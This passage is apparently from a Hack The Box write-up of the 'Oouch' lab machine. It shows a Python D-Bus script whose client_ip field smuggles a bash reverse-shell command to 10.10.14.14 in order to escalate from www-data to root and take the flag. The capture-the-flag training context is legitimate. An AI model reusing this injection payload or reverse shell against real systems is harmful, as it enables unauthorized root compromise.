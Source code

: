 Now that we have a shell as `www-data`, we can use the following python script to see if there is a command injection vulnerability:

```python
import sys
sys.path.insert(0, "/usr/lib/python3/dist-packages")
import dbus

bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

client_ip = '; bash -c "bash -i >& /dev/tcp/10.10.14.14/1338 0>&1" //'
response = block_iface.Block(client_ip)
bus.close()
```

The first two lines were added to tell the script where to find the dbus package

If we run it without, we'll get the following error:

{{<figure src="/img/htb/oouch/dbus_import_error.png" position=center caption="dbus import error">}}

After running it, we get a shell as root and can retrieve the root flag:

{{<figure src="/img/htb/oouch/root_flag.png" position=center caption="Root flag obtained !">}}

